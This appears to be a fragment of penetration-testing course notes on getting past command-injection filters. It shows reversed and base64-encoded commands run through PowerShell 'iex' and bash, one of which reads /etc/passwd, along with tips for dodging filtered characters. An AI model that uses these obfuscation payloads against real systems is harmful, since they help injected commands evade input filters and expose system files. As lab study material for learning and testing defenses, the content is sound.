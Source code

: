 ### Windows

```powershell
PS C:\htb> "whoami"[-1..-20] -join ''
imaohw

PS C:\htb> iex "$('imaohw'[-1..-20] -join '')"

21y4d
```

Tip: To bypass filtered characters, reverse them as well or include them when reversing the original command.

---

## Encoded Commands

Encoding commands can help bypass filters that decode or mess up the payload. Example:

### Linux Base64 Encoding

```bash
DJMC@htb[/htb]$ echo -n 'cat /etc/passwd | grep 33' | base64
Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==

DJMC@htb[/htb]$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

Tip: Avoid filtered characters by replacing spaces or pipes with alternatives.

### Windows Base64 Encoding

Encode the command:

```powershell
PS C:\htb> [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
dwBoAG8AYQBtAGkA
```

Decode and execute it:

```powershell
PS C:\htb> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"

21y4d
```

---

## Additional Techniques

- **Wildcards**
- **Regex**
- **Output Redirection**
- **Integer Expansion**
